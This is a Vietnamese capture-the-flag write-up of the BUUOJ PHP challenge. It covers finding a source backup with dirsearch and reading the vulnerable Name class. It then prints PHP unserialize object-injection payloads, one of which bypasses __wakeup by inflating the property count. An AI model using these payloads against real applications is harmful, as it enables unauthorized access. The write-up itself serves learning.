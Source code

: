 # [极客大挑战 2019]PHP

[Link](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]PHP)

Đầu tiên, khi mình boot instance và truy cập vào challenge, mình cảm thấy rất bất ngờ với giao diện của trang web. Mình nghĩ rằng author rất giỏi với giao diện thú vị và vui nhộn như thế.
![1](https://user-images.githubusercontent.com/95614411/173055220-97ee6bb8-4e31-43d2-bb53-170f542d6917.PNG)

Vì author đã gợi ý là họ thường xuyên sao lưu dữ liệu trang web, nhưng vì mình không tìm được manh mối nào khi đọc source HTML, nên mình quyết định dùng Dirsearch để tìm.

`python3 dirsearch.py -u http://089e324c-b9d5-4267-a1b6-5a5e6c644bdf.node4.buuoj.cn:81/ -e php`

Và mình phát hiện ra được một link thú vị, có thể down về source code của web.

![2](https://user-images.githubusercontent.com/95614411/173055306-2f4b161c-b5c0-40cb-9f2c-c816f5e6cc13.PNG)

![3](https://user-images.githubusercontent.com/95614411/173055353-f97a15fe-66ad-42f5-a8c4-4d1105c84a4d.PNG)


ở file class.php:
```
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

điều đầu tiên mình đập vào mắt mình là: 


![image](https://user-images.githubusercontent.com/95614411/173054943-b8052b7b-d389-4068-97a6-79a2ea9686bb.png)

Ở đây, mình xác nhận được, để nhận được flag thì mình phải đăng nhập vào được quyền admin với:
> Username: admin
> 
> Password: 100

Và bây giờ, mình đối mặt với 2 vấn đề: 
- Làm sao để đưa lên server username và password?
- làm sao để đưa vào khi username, password đều nằm trong 1 class?

Mình tiếp tục mở file index.php lên và thấy:

![image](https://user-images.githubusercontent.com/95614411/173056586-1a476fa6-46bc-4c6a-b0c3-0b1fbf2ad4b9.png)

Vậy là mình có thể đưa vào với query string `?select=`

Kế tiếp, mình nhớ là đã xem trên kênh Cyber Jutsu về ý tưởng đưa một ojbect qua query string, nhưng và mình phải tìm cách vượt qua function __wakeup() 

![image](https://user-images.githubusercontent.com/95614411/173057145-80e07ba6-e84e-4554-92ce-41ba85f27968.png)

Mình đã biến tấu một chút ở code và dùng hàm `serialize()` để xem mã hóa của code khi mình tạo một object như bên dưới:

![image](https://user-images.githubusercontent.com/95614411/173057544-d4b9face-7546-4dea-8510-82ac60d0e8aa.png)

Và khi chạy trên localhost thì mình được:

![image](https://user-images.githubusercontent.com/95614411/173057621-60728caf-572a-4881-8841-240793d9a3ba.png)


Payload ban đầu của mình: 

`?select="O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`
- ở đây, vì hai biến `username` và `password` mang thuộc tính private, nên mình dùng `%00` điền vào trước chuỗi để khi truy xuất vào được đầy đủ.
 
Và để vượt qua function `__wakeup()` thì mình đã payload một chút:

`?select="O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}"`

Và kết quả:

![image](https://user-images.githubusercontent.com/95614411/173059398-29fc5a8e-43c9-47a6-be28-35ce755c04a5.png)


###### Thanks for reading!




